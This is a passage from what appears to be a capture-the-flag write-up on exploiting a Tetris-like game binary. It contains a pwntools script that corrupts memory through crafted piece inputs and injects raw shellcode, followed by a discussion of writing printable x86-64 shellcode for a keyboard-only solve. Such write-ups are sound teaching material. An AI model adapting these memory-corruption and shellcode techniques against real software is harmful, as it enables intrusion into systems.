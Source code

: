 ```py
p.send("\nOxaaaaaadssssssssssssssssssJ                 \n")
p.send("\nOxaaaaaassssssssssssssssssZ                 \n")
# increment heap_top
for _ in range((0x40021e-0x40020a)//4):
    p.send("\nIaaaaaa Ia                  \n")
p.send("\nIaaaaaa Ia                  \x50\n")

# would like to write shellcode to 0x40011f
p.send("\nOxaaaaaadssssssssssssssssssI                 \n")
p.send("\nOxaaaaaassssssssssssssssssT                 \n")
# increment heap_top
for _ in range((0x40011f-0x400107)//4):
    p.send("\nIaaaaaa Oaaaaaa O O O O O O O O O O \n")
p.send("\nIaaaaaa Oaaaaaa O O O O O O O O O O ")
p.send("\xBF\x41\x41\x41\x41\x68\x73\x0D\x40\x00\xC3\n")

# high score baby
p.send("\nIaaaaaa Oaaaaaa O O O O O O O O O O \n")

p.interactive()
```

# Optimizing for a Keyboard-Only Solution
Of course, this solution presents some issues for a potential keyboard-only solve. The most obvious is that the shellcode contains non-printable characters. Also, the location we selected for our shellcode is not optimal, because it is far away from what we can create with just the tetromino clipping.

The TAZ and P patches are too specific to move elsewhere, so they'll have to stay put.

First we'll tackle the shellcode location, as it turns out knowing this is pretty critical to writing a short, printable shellcode. `0x400401` in `place_cur_mino` is a good spot, because we can call it easily and its address can be created just by overwriting a `0x04` and `0x01`, both of which we can do.

The printable shellcode presents a challenge. Our end goal is to call `syscall(1337, 0x41414141)`, and the most straightforward way to do this is to set rdi to `0x41414141` and jump to the program's `hw_log` function. Unfortunately, working with rdi is quite difficult with only printable characters. To help me write this shellcode, I found [this page](https://nets.ec/Alphanumeric_shellcode) to be very helpful.

The most straightforward way to change rdi is to use the `xor rdi, QWORD PTR ss:[reg]` instruction. In order to save time, we can skip zeroing the register and simply use the debugger to find the value of rdi at that point, which is `0x13`. Thus, this assembly will set rdi to `0x41414141`.

```nasm
push   rsp
pop    rdx
pop    rax
push   0x41414152
xor    rdi, QWORD PTR ss:[rdx]
```
